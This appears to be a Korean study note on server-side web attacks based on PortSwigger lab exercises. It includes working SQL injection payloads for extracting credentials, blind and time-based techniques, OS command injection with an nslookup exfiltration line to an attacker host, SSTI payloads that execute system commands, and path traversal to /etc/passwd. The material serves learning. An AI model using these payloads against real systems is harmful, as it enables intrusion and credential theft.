










- [개요](#개요)

- [SQL injection](#SQL-injection)
  - [Examining DB](#Examining-DB)
  - [UNION attack](#UNION-attack)
  - [Blind SQL injection](#Blind-SQL-injection)
- [File Vulnerability](#File-Vulnerability)
- [OS command injection](#OS-command-injection)
- [SSTi](#SSTi)
- [SSRF](#SSRF)
- [HTTP request smuggling](#HTTP-request-smuggling)
- [Directory traversal](#Directory-traversal)
- [WebSockets](#WebSockets)
- [Web cache poisoning](#Web-cache-poisoning)
- [Authorization](#Authorization)
- [XXE](#XXE)

# 1. 개요

**Server side** 

HTTP 요청을 조작하여 전송. 서버를 대상으로 하는 공격. 
정보탈취, 권한장악 등이 목적. 
받은 요청을 올바르게 검증하지 않을때 취약점 발생. 

Client side는 페이지와 브라우저의 취약점이라는 것에서 차이가 있음.  

## 1.1. 종류 

- injection = 유저가 입력한 데이터가 서버처리과정에서 예상치 못한 방법으로 사용될 때.
  - SQL injection
  - Command injection
  - Server side Template injection (SSTi)
  - Server side Request Forgery (SSRF)
  - Path Traversal
- File Vulnerability = 서버의 파일 시스템에 사용자가 원하는 행위를 할 수 있을 때.
- Business Logic Vulnerability = 인젝션, 파일 취약점과는 달리, 정상적인 흐름을 악용하는 것.
- Language specific Vulnerability = 서버에 쓰이는 언어의 특성에 따른 취약점
- Misconfiguration = 잘못된 설정으로 인한 취약점
- (다시 정리 예정)


# 2. SQL injection

## 2.1. 개요

SQL(Structured Query Language)는 관계형 데이터베이스(RDBMS)의 데이터를 정의하고 질의, 수정 등을 하기 위해 고안된 언어이다. 

SQL injection은 SQL쿼리에 유저의 입력데이터가 삽입되어, 유저가 원하는 쿼리를 실행할 수 있는 취약점이다. 

자료를 추출하거나 삭제하는 등의 행위가 가능하다. 

 

### 2.1.1. SQL 종류 

- **DDL (Data Defintion Language)** 

  - 데이터를 정의하기 위한 언어. 스키마, 데이터베이스의 생성/수정/삭제의 행위를 수행 
  - CREATE- 새로운 데이터베이스 또는 테이블 생성 
  - ALTER- 데이터베이스 또는 테이블의 속성변경 

  - DROP - 데이터베이스 또는 테이블 삭제 

- **DML (Data Manipulation Language)** 
  - 데이터를 조작하기 위한 언어. 데이터베이스에 있는 데이터의 조회/저장/수정/삭제의 행위를 수행 
  - INSERT- 테이블에 새로운 데이터 추가 
  - UPDATE- 테이블에 존재하는 데이터 수정 
  - SELECT- 테이블에 존재하는 데이터 조회 
  - DELETE- 테이블에 존재하는 데이터 삭제

- **DCL (Data Control Language)** 

  - 데이터베이스 접근권한 등의 설정을 위한 언어. 
  - GRANT- 권한 부여 
  - REVOKE- 권한 박탈  

   

 ### 2.1.2. 공격 종류

- **Retrieving hidden data**, 

where you can modify an SQL query to return additional results. 

입력받은 Gifts값이 SQL에 다음과 같이 쓰인다. 

```sql
SELECT * FROM products WHERE category='Gifts' AND released=1
```

`Gifts'+OR+1=1--` 을 넣는다. 

```sql
SELECT * FROM products WHERE category='Gifts' OR 1=1--' AND released=1 
```

Gifts 뿐만 아닌 모든 카테고리를 다 가져오게 된다. -- 에 의해서 AND부분은 주석처리됨. 
 

- **Subverting application logic** 

where you can change a query to interfere with the application's logic.  

로그인시에 입력받은 아이디 jimin 비번 peter는 다음과 같은 쿼리에 쓰인다. 

```sql
SELECT * FROM usres WHERE username='jimin' AND password='peter' 
```

여기에 아이디 `admin'--` 비번은 암거나 넣으면, 

```sql
SELECT * FROM users WHERE username='admin'--' AND password='peter' 
```

admin 계정을 비번은 확인안하고 가져오게 됨, 비번 없이 로그인이 가능해짐. 

쿼리 로직을 subvert, 뒤엎는 방법. 


- **UNION attacks** 

where you can retrieve data from different database tables. 

위에서 본 쿼리 

```sql
SELECT * FROM products WHERE category='Gifts' AND released=1 
```

여기에, `Gifts'+UNION+SELECT+username,password+FROM+users--` 를 넣는다. 

```sql
SELECT * FROM products WHERE category='Gifts' UNION SELECT username,password FROM users--' AND released=1  
```

products 테이블 뿐만 아니라, users 테이블의 정보도 가져오게 된다. 

이떄, colums의 수가 같아야한다. 
 

- **Examining the database** 

where you can extract information about the version and structure of the database 

공격을 하기 위해서는 데이터베이스에 대한 정보가 있어야 한다. 

어떤 DB를 쓰는지, 테이블은 뭐가 있는지 

```sql
SELECT * FROM v$version 
SELECT * FROM information_schema.tables 
```

이건 DB마다 다름. 

[https://portswigger.net/web-security/sql-injection/cheat-sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)


- **Blind SQL injection** 

where the results of a query you control are not returned in the application's responses. 

쿼리의 결과, 에러내용 들을 보여주지 않는 경우 

1/0 같은 에러가 나는 내용을 포함시키거나, 타임 딜레이를 넣어서, 조건에 따른 결과의 차이를 만들어낸다. 

OAST(out-of-band-network interaction)를 이용한다. 


- **Second-order SQL injection** 

first order는 HTTP request로 input을 받아서, 쿼리에 쓰는것 

second order(stored SQL injection)는 input을 받아서, 나중에 쓰기 위해 저장해두는 것. 그래서 input이 DB에 저장이 됨. 처음에 input을 DB에 들여보낼때는 SQL injection을 걱정했다가 나중에 output에는 느슨한 경우 second-order injection에 당할 수 있음. 


### 2.1.3. 취약성

- **취약성을** **알아내는** **방법** 

Burpsuite scanner 

' 를 보내서 결과를 본다. 

쿼리를 보내본다. OR 1=1나 1=2같은. 

타임딜레이를 시켜본다. 

OAST payload를 보내본다. 

- **방어** 

input을 그대로 쿼리에 사용하지말고, 케이스를 나눠서 준비된 input만 받도록 한다. 

ORM같은 라이브러리를 이용한다. 

 

## 2.2. Examining DB

### 2.2.1. DB의 타입, 버전 알아내기

먼저 칼럼수와 데이터 타입을 알아내야한다. 

아래는 Oracle인데, SQL마다 조금씩 다름. 

https://portswigger.net/web-security/sql-injection/cheat-sheet 

NULL은 모든 데이터 타입이 선택되도록, 그리고 칼럼수를 늘려가면서 앞에 products에서 가져온 데이타의 칼럼과 일치하도록 해야함. 

```sql
UNION+SELECT+NULL+FROM+DUAL-- 
UNION+SELECT+NULL,NULL+FROM+DUAL-- 
UNION+SELECT+NULL,NULL,NULL+FROM+DUAL--
-- NULL 수를 늘려가면서 에러가 나지 않는 개수가 칼럼수이다. 
-- 앞에 ' 를 붙여서 닫아주고, 끝에 --를 붙여서 뒤를 무시해줌.
```

`'+UNION+SELECT+BANNER,+NULL+FROM+v$version--` 

버젼을 알아낸다.  


- **테이블** **조사** 

- \<non-oracle> 
  - `'+UNION+SELECT+table_name,+NULL+FROM+information_schema.tables--` 

- \<oracle> 
  - `'+UNION+SELECT+table_name,NULL+FROM+all_tables--` 

- 모든 테이블 이름을 가져온다. 
- 테이블 이름을 보고, 유저 정보가 있을 법한 애들을 아래와 같은 쿼리로 칼럼을 가져온다.  


- **칼럼** **조사** 

- \<non-oracle> 
  - `'+UNION+SELECT+column_name,+NULL+FROM+information_schema.columns+WHERE+table_name='USERS_ABCDEF'--` 

- \<oracle> 
  - `'+UNION+SELECT+column_name,NULL+FROM+all_tab_columns+WHERE+table_name='USER_ABCDF'--` 

- 칼럼의 이름을 보고, username, password가 있는 것을 확인 


- **데이터** **조사** 

- \<non-oracle> 
  - `'+UNION+SELECT+USERNAME_ABCDEF,+PASSWORD_ABCDEF+FROM+USERS_ABCDEF--` 

- \<oracle> 
  - `'+UNION+SELECT+username,password+FROM+USER_ABCDF--` 

칼럼의 데이타를 다 가져온다. 

이렇게 모든 유저의 아이디, 비번을 알 수 있다. 


## 2.3. UNION attack

UNION이란, 기존 쿼리에 추가적인 SELECT를 덧붙이는 것 

 

**예시** 

```sql
SELECT a, b FROM table1 UNION SELECT c, d FROM table2 
```

다른 테이블의 데이타를 가져올 수 있다. 
 

**조건** 

- 각각의 쿼리는 **같은 수의 칼럼**을 리턴해야한다. 

- **칼럼의 타입이 서로 호환**이 되야 한다. 

 

**칼럼수** **알아내는** **방법**  

1. ORDER BY 

기존 쿼리가 다음과 같다. 

```sql
SELECT * FROM products WHERE category='Gifts' 
```

여기에 ORDER BY로 특정 칼럼으로 정렬하도록 한다. 

칼럼의 이름을 모르기에 index로 정렬을 한다. 

```sql
ORDER BY 1-- => 첫번째 칼럼으로 정렬 
ORDER BY 2-- => 두번째 칼럼으로 정렬 
```

칼럼수를 늘려가다가 에러가 나면, 그 직전의 칼럼수가 리턴되는 칼럼의 수이다. 
 

2. NULL

```sql
UNION SELECT NULL-- 
UNION SELECT NULL,NULL-- 
```

NULL의 수를 늘려가다가 에러가 안날때의 NULL수가 기존 칼럼 수이다. 

UNION을 하기 위해서는 칼럼수가 일치해야함을 이용해서 NULL값을 기존 쿼리값에 유니언시키는 방법으로 테스트를 한다. 
NULL은 모든 데이터 타입과 호환이 된다. 

오라클에서는 SELECT는 테이블과 함께 있어야 하기에 `' UNION SELECT NULL FROM DUAL--` 처럼 DUAL 테이블을 이용한다. 

My-SQL은 -- 뒤에 공백이 있어야 주석처리가 된다. 그래서 #를 대신 이용한다. 


**알맞은** **데이터** **타입의** **칼럼** **알아내기** 

내가 빼오고 싶어하는 데이타는 많은 경우 string type이다. 
그래서 기존 쿼리의 리턴 칼럼에서 string타입과 호환이 가능한 데이터 타입을 가진 칼럼을 찾아야한다. 

```sql
UNION SELECT 'a',NULL,NULL-- 
UNION SELECT NULL,'a',NULL--
-- 앞에 '+(공백) 을 붙여줘야한다.
```

에러가 나지 않을때 'a' 가 있는 칼럼 index가 string과 호환이 가능한 칼럼이다. 

따라서 injection을 할때 해당 칼럼을 이용한다. 

이제 알아낸 칼럼수, 타입의 칼럼을 통해서 다른 테이블의 정보를 빼내야 한다. 

이걸 위해선 테이블의 이름, 칼럼의 이름을 알아야한다. 

Examining 과정을 거치며 알아낸다. 
 

**한** **칼럼에** **여러** **칼럼의** **정보를** **넣는** **방법** 

테이블이름, 칼럼이름은 안다고 가정. 

기존 쿼리의 칼럼 수를 알아냄. 

```sql
UNION+SELECT+NULL,NULL+FROM+users-- 
UNION+SELECT+NULL,NULL,NULL+FROM+users-- 
```

다음은 users테이블에 username, password의 칼럼위치를 알아야한다. 

NULL값을 `username||+'~'+||password`로 하나하나 바꿔간다. 

```sql
UNION+SELECT+username||+'~'+||password,NULL+FROM+users-- 
UNION+SELECT+NULL,username||+'~'+||password+FROM+users-- 
```

그러면 어느 부분에서 응답이 온다. 

 

## 2.4 Blind SQL injection

HTTP 응답에 SQL query의 결과가 보여지지 않을때. 

UNION attack 같은 경우는 결과를 볼 수 있기에 가능한 공격이다. 
그래서 Blind상태에서는 의미가 없다. 그래서 다른 기술이 필요함. 


### 2.4.1. 쿼리 결과에 따른 페이지 차이가 있을 때.

쿠키의 값이 쿼리에 이용되는 경우가 있다고 하자. 
이때, 쿠키가 데이터 베이스 값과 일치해서 참이면, **Welcomeback!** 이 표시, 없을때는 아무 것도 표시되지 않는다. 

데이터베이스에 항상 참이 되도록 했더니, Welcome back! 이 표시된다. 
1=2처럼 거짓이 되게 하면, 표시되지 않는다. 

쿠키가 DB와 연결되어있고, 참-거짓을 알 수 있으니, 데이터를 유추, 확인할 수 있다. 

```
'UNION+SELECT+'a'+FROM+users+WHERE+username='administrator'-- 
```

이런식으로 DB를 검색했는데, welcomeback이 뜬다. 즉, administrator계정이 있다. 



다음으로는 비번을 알아야한다. 비번을 불러도, 값을 띄울 수가 없기에 참-거짓으로만 알아내야 한다. 일단, 비번의 길이부터.. 

```
x'UNION+SELECT+'a'+FROM+users+WHERE+username='administrator'+AND+length(password)>2--
```

password값의 길이를 점점 늘려가면서 언제 welcomeback이 안나오는지본다. 
여기서는 20에서 안나왔으니, 비번의 길이는 20이다. 

비번이 뭔지를 알기위해서 한글자씩 넣어보면서 참-거짓을 봐야한다. intruder를 사용한다. 

```
x'UNION+SELECT+'a'+FROM+users+WHERE+username='administrator'+AND+substring(password,1,1)='0'-- 
```

끝에 값을 0-9, a-z까지 해봐야함. `substring(password, 1, 1)='$a$'--` sniper로 해서 검사하면, match에 하나만 걸림. 그리고 이걸 20번 반복하면됨. 



 

cluster bomb으로 payload 2개 설정하고, 공격하면, 20개의 welcomeback이 찍힘. 그걸 조합하면 비번이 나옴. 


### 2.4.2. 페이지 변화가 없는 경우

에러를 유도해서 유무를 판단한다. 

CASE 구문을 통해서 조건이 참일 경우만 에러가 나게 한다. 

```sql
CASE WHEN <조건> THEN <참 일때> ELSE <거짓 일때> 
```

```
xyz' UNION SELECT CASE WHEN (1=2) THEN 1/0 ELSE NULL END-- 
xyz' UNION SELECT CASE WHEN (1=1) THEN 1/0 ELSE NULL END-- 
```

첫번째 쿼리는 (1=2) 라는 조건이 거짓이라서 NULL 아무 반응없지만, 

두번째 쿼리는 (1=1) 라는 조건이 참이 되면서 1/0 즉 divide by zero 에러가 뜬다. 
그리고 이런 에러는 사이트에서도 뭔가 다른 응답으로 알아챌 수 있다.  

**문제상황** 

일단, 쿠키 값 중에서 SQL쿼리에 사용되는 것이 있는지 확인한다. 

그리고, 쿼리된 값을 볼 수 있는지, 유무를 판단할 뭔가가 있는지 확인한다. 

없을경우, 일부러 에러가 나는 쿼리를 만들어서 응답이 어떻게 다른지 확인한다. 
 

`TrackingId:adhfkj12398df` 원래는 이렇게 되있음. 

이거 값을 TrackingId: ' 으로 해보니 에러가 남. 
이걸로 지난 실험실과 똑같이 참, 거짓의 반응차이를 볼 수 있게 할 수 있음. 

조건문을 만들고 에러가 나면 참, 에러가 없으면 아무일 없게 만든다. 

```
'UNION+SELECT+CASE+WHEN+(1=2)+THEN+to_char(1/0)+ELSE+NULL+END+FROM+DUAL-- 
'UNION+SELECT+CASE+WHEN+(1=1)+THEN+to_char(1/0)+ELSE+NULL+END+FROM+DUAL-- 
```

위에는 조건이 거짓이라서 NULL 

아래는 조건이 참이 되서 to_char(1/0) error가 남. 

따라서 조건에 알아내고 싶은 내용을 넣어서 결과를 참 거짓으로 받을 수 있음. 

```
x'UNION+SELECT+CASE+WHEN+(username='administrator')+THEN+to_char(1/0)+ELSE+NULL+END+FROM+users-- 
```

설정한 username이 있으면 에러가 난다. administrator 있는거 확인. 

```
x'UNION+SELECT+CASE+WHEN+(username='administrator'+AND+length(password)>20)+THEN+to_char(1/0)+ELSE+NULL+END+FROM+users-- 
```

1부터 넣어보면서 20에서 에러가 안나는 것을 확인, 비번길이는 20자 

`x'UNION+SELECT+CASE+WHEN+(username='administrator'+AND+substr(password, §1§, 1)='§a§')+THEN+to_char(1/0)+ELSE+NULL+END+FROM+users--` 

intruder에 보내서, match는 internal을 넣어주고, cluster bomb으로 공격 


### 2.4.3. 에러조차 없는 경우

근데 에러도 안나면? 

time delay를 준다. SQL쿼리는 sync하게 처리되기에 HTTP도 다 막히게 되고, 그걸로 반응을 알아챌 수 있다. 

```
'; IF (1=2) WAITFOR DELAY '0:0:10'-- 
'; IF (1=1) WAITFOR DELAY '0:0:10'-- 
```

첫번째는 조건이 틀려서 아무 일없고, 두번째는 타임딜레이가 생긴다. 

**문제상황** 

에러도 표시가 안되는 환경 

타임딜레이로 조건을 판단한다. 

```
x'%3BSELECT+CASE+WHEN+(1=1)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END--
```

1=1일때는 10초 딜레이, 1=2일때는 없음. 타임 딜레이 이용가능 확인. 

```
x'%3BSELECT+CASE+WHEN+(username='administrator')+THEN+pg_sleep(3)+ELSE+pg_sleep(0)+END+FROM+users--
```

딜레이가 있는 걸보니, administrator가 있음. 

```
x'%3BSELECT+CASE+WHEN+(username='administrator'+AND+length(password)>20)+THEN+pg_sleep(3)+ELSE+pg_sleep(0)+END+FROM+users-- 
```

20에서 딜레이가 멈추는 걸보니, password는 20자임. 

x'%3BSELECT+CASE+WHEN+(username='administrator'+AND+substring(password,§2§,1)='§a§')+THEN+pg_sleep(2)+ELSE+pg_sleep(0)+END+FROM+users-- 

intruder에 보내서, clusterbomb, thread=1, 그리고 공격, response received칼럼으로 정렬함. 

 

password 확인가능 


# 3. File Vulnerability

**파일 업로드 취약점** 

서버의 파일 시스템에 사용자가 원하는 경로 또는 파일 명 등으로 업로드가 가능하여 악영향을 미칠 수 있는 파일이 업로드되는 취약점 
파일명을 ../hack.py로 하면 정해진 경로에서 벋어난 위치에 업로드 될 수 있음. 

**파일 다운로드 취약점** 

서버의 기능 구현 상 의도하지 않은 파일을 다운로드할 수 있는 취약점 
../../etc/passwd 와 같은 이름의 파일은 다운할 수가 있게 된다. 

**방어** 

파일명을 받아서 다운로드 하는 것은 좋지 않다. 
파일명을 받는 경우에는 .. , /를 필터링 해야한다. 


# 4. OS command injection

- application이 구동중인 서버에 OS command를 실행할 수 있는 웹 취약성이다. 

- 웹어플리케이션에 OS command를 사용하는 부분이 있고 유저의 입력 데이터가 쓰일 때 생긴다. 


## 4.1. 공격 

**Executing arbitrary commands** 

```
https;//insecure-website.com/stockStatus?productID=381&storeID=29 
```

이렇게 받은 요청 데이터가 OS cammand에 쓰여서 매장별 재고량을 받아올 수 있다고 하자. 

```
stockreport.pl 381 29
```

요청은 쉘 커맨드에 의해 처리되고, 위와 같은 argument가 들어간다. 

그리고 저기에 `& echo aiwefwlguh &` 이걸 넣는다. 

`stockreport.pl & echo aiwefwlguh & 29` 

&는 쉘에서 분리기호이다. 그러니까 위에는 총 3개 번 실행됨. 

Error - productID was not provided 

aiwefwlguh 

29: command not found 

이런 답이옴. 

먼저 stockreport.pl이 argument없이 실행되었다. 

echo명령어가 실행되었다. 

**Useful commands** 

| **Purpose of command** | **Linux**   | **Windows**   |
| ---------------------- | ----------- | ------------- |
| Name of current user   | whoami      | whoami        |
| Operating system       | uname -a    | ver           |
| Network configuration  | ifconfig    | ipconfig /all |
| Network connections    | netstat -an | netstat -an   |
| Running processes      | ps -ef      | tasklist      |

**Blind OS command injection vulnerabilities** 

많은 경우 결과를 볼 수가 없다. 

이런 경우에는 echo를 사용하는 것도 의미없다. 다른 기술이 필요하다. 

**Detecting blind OS command injection using time delays** 

결과를 볼 수 없는 경우에는 타임 딜레이를 주는 방법으로 OS command가 먹히는지 알 수 있다. 

```
& ping -c 10 127.0.0.1 & 
```

10초의 딜레이가 확인되면 OS command가 먹힌다는 것. 

**예제**

피드백을 받는 란에 이메일 값에 삽입한다. 

10초의 딜레이가 생긴다. 
 

**Exploiting blind OS command injection by redirecting output** 

커맨드의 결과를 다른 디렉토리(웹루트)로 옮겨서 브라우져로 볼 수 있게 한다. 

```
& whoami > /var/www/static/whoami.txt & 
```

whoami 커맨드의 결과가 https;//vulnerable-website.com/whoami.txt 여기로 옮겨짐. 
 

**예제** 



whoami커맨드의 결과를 옮긴다. 

옮길때는 프록시를 보면서 사이트 접근시 로드되는 파일 디렉토리로 한다. 




image디렉토리가 좋음을 확인. 

요청을 보내서, 결과를 볼 수 있다. 
 

**Exploiting blind OS command injection using out-of-band (OAST) techniques** 

```
& nslookup kgji2ohoyw.web-attacker.com & 
```

OAST로 외부 URL로 커맨드를 보낼 수도 있다. 
 

**예제**

```
email=x||nslookup+`whoami`.urp5ql7cnjowea8l6hr0uaarciia6z.burpcollaborator.net|| 
```

pull하면, whoami커맨드에 대한 결과를 **DNS query**에서 확인가능 

 

**Ways of injecting OS commands** 

운영체제마다 다름. 

&, &&, || 같은 커맨드 분리기도 다름. 

\`command`, $(command) 커맨드 삽입도 다름. 


## 4.2. 방어법

어플리케이션 레이어 수준에서 커맨드를 쓰지 않는 것이 최고의 예방법 

써야한다면 input validation을 빡시게 
 
 

 # 5. SSTi

**# Basic server-side template injection** 

사이트에 있는 물건을 누르니, 메세지가 표시가 된다. 
근데, 그 메세지가 URL에 params로 똑같이 있다. 즉 URL을 읽어서 웹상에 띄우는 것이다. 이걸로 URL을 통해 injection을 할 수 있다. 

해당 사이트가 Ruby ERB 템플릿엔진으로 빌드가 되어있는 것을 알았으면(wappalyzer같은걸 써서) 해당 언어의 다큐먼트를 읽고, 코드를 inject한다. 

`?message=<%=999%>`를 하면 999가 표시된다. 

```
?message=<%25+system("rm+/home/carlos/morale.txt")+%25>
```

위의 스크립트를 붙여 보내면, 해당 코드가 실행되면서 디렉토리를 삭제할 수 있다. 



\# **Basic server-side template injection (code context)** 

댓글을 쓰면 내 닉네임이 표시된다. 
이때 표시되는 값은 nick_name, first_name, name가 있고 내 계정창에서 설정을 할 수 있다. 
이때 설정을 위해 보내는 POST body 뒤에 추가적인 코드를 더 넣을 수 있다. 

이 웹사이트는 Tonado라는 파이썬 웹 프레임워크가 쓰였고, 해당 라이브러리에서는 {{ }}안에 코드를 넣어서 웹상에 표시를 한다. 
그래서 여기서는 blog-post-author-display에 받은 값을 {{ }} 로 포장해서 실행하는 것을 파악한다. 

그래서 이걸 일단, `user.name}}` 으로 닫아서 애러가 댓글을 불러올때 에러가 나지 않게 해주고, 뒤로 코드를 이어 적는다. 

```
blog-post-author-display=user.name}}{%25+import+os+%25}{{os.system('rm%20/home/carlos/morale.txt')
```

해당 디렉토리가 삭제된다. 



**# Server-side template injection using documentation** 

server-side-injection을 할때는 탬플릿 엔진의 문법으로 적은 코드를 넣어야 하기에, 먼저 무슨 엔진이 쓰였는지를 파악해야한다. // builtwith, wappayzler 등등.. 

그리고, 파악한 엔진의 documentation을 읽어보며 기본적인 문법을 배운다. 여기서는 java Freemaker가 쓰였으니, 해당 문서를 읽으며 보안관련 취약점을 살펴본다. 

[https://freemarker.apache.org/docs/ref_builtins_expert.html#ref_builtin_new ](https://freemarker.apache.org/docs/ref_builtins_expert.html#ref_builtin_new)

위의 문서를 보면, 빌트인 new() 메서드 대한 설명과 보안상 문제점을 볼 수 있다. 

```
<#assign ex="freemarker.template.utility.Execute"?new()> ${ ex("rm /home/carlos/morale.txt") } 
```

위와 같은 코드를 넣으면, 목표 디렉토리 삭제가 가능하다. 

Serverside injection에서는 **템플릿엔진의 작동방식을 파악하는 것**이 중요하다. 
템플릿 메서드 간의 구조를 파악하고, 연결을 확인하며 공격에 활용될만한 부분을 잘 살펴봐야 한다. 
https://portswigger.net/research/server-side-template-injection 


**# Server-side template injection with information disclosure via user-supplied objects** 

POST body를 구성할 부분에 fuzz-string을 넣어서 요청을 보낸다. 
그럼 에러가 뜨고 그걸보고 django가 쓰임을 알 수 있다. 

Django를 공부한다. 

Debug를 통해 정보를 빼온다. 

Settings에 접근이 가능함을 알 수 있다. 

Settings에 숨겨진 키를 찾는다. 



**# Server-side template injection in a sandboxed environment** 

샌드박스란 외부로부터 격리된, 환경같은 것이다. 

그걸 뚫고, 접근을 하기위해서 메소드를 연결지어 원하는 것을 받을 수 있다. 
Product 오브젝트에서 그 메소드를 연결지으면 원하는 디렉토리의 내용까지 읽을 수 있다. 

그리고 읽은 내용을 아스키로 변환하면 키가 된다. 




**# Server-side template injection with a custom exploit**  

일단, 댓글을 하나 작성한다. 
댓글이 달린 주소를 로드할때 내 user정보도 함께 로드가 된다. 
그리고 user정보에 뭔가 코드를 삽입해두면 댓글을 읽는 과정에서 그 코드를 실행할 수가 있게 된다. 

유저의 nickname, name과 같은 설정을 바꿀때, user.name이런식으로 POST요청이 간다. 
즉, user 오브젝트에 접근이 가능하고, 댓글에서 user오브젝트에 달린 메서드를 읽으며 프사나 닉넴같은 정보를 받아오는 구조임을 알 수 있다. 

목표는 다른 디렉토리의 파일을 조작하는 것이고, 프사의 경로에 사진주소대신, 디렉토리 주소를 넣으면 해당 디렉토리를 읽어올 수 있다. 

일단, 프사를 받는 메서드를 알기 위해 업로드에 사진이 아닌, 파일을 올려서 일부러 에러가 나게 한다. 
그리고 에러를 보면 user.setAvator()라는 메소드가 쓰이는 것을 알 수 있다. 그리고 디렉토리는 /home/carlos/User 인 것도 알 수 있다.  

